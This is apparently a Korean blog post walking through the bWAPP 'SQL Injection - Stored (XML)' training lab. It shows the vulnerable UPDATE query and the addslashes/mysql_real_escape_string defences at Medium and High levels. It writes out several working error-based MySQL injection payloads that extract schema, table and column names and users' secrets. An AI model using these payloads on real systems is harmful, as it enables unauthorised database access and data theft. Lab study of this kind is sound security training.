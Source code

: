 ```yaml
---
layout: single
title: (bWAPP)SQL Injection - Stored (XML)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/stored-xml-archive/image.png)
- 해당 Any bugs? 버튼을 클릭해도 아무런 변화가 일어나지 않는다.

![그림 1-2](/assets/image/bwapp/injection/stored-xml-archive/image2.png)
- Burp Suite 를 통해 요청값과 응답값 패킷을 잡아 확해보면
- POST 형식의 XML 데이터를 보내는 걸 알 수 있다.
- Content-type: 부분을 보면 text/xml 인 걸 알 수 있다.

![그림 1-3](/assets/image/bwapp/injection/stored-xml-archive/image3.png)
- login 태그 내에 ‘ 싱글 쿼터를 보내면 DBMS Error을 반환한다.

```php
$sql = "UPDATE users SET secret = '" . $secret . "' WHERE login = '" . $login . "'"
```

- 해당 기능에서 사용되는 SQL 구문은 위와 같다.
- DBMS Error 가 존재하니 Error-Based 공격이 가능하다.

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT schema_name FROM information_schema.schemata LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)+'
```

![그림 1-4](/assets/image/bwapp/injection/stored-xml-archive/image4.png)
- 위 코드를 주입하면 Error의 내용으로 DB를 출력하고 있다.
- 이와 같은 방식으로 테이블, 컬럼, 데이터등을 추출할 수 있다.

> 해당 쿼리는 login 태그 혹은 secret태그등 둘 다 가능하다. db 질의시 문법을 잘못 주어 에러를 발생시켜 해당 에러의 내용에서 공격자가 원하는 값을 추출하는 방법이기 떄문이다.

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema='bWAPP' LIMIT 3,1), FLOOR(rand(0)*2))a FROM information_schema.TABLES GROUP BY a LIMIT 0,1)b)+'
```

```sql
bee'+(SELECT 1 FROM (SELECT COUNT(*),concat((SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='bWAPP' AND TABLE_NAME='users' LIMIT 0,1), FLOOR(rand(0)*2))a FROM information_schema.COLUMNS GROUP BY a LIMIT 0,1)b)+'
```

```sql
bee'+(SELECT 1 FROM(SELECT COUNT(*),concat((SELECT CONCAT_WS(0x3a,secret,id) FROM bWAPP.users LIMIT 1,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)+'
```

![그림 1-5](/assets/image/bwapp/injection/stored-xml-archive/image5.png)
- 성공적으로 데이터를 추출했다.
- 하지만 이 때 해당 출력 구간에서 특정 문자열을 넘어가면 error가 발생되지 않는 문제가 생겨
- concat 를 사용하더라도 1개 혹은2개씩 데이터를 조회해야 한다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.
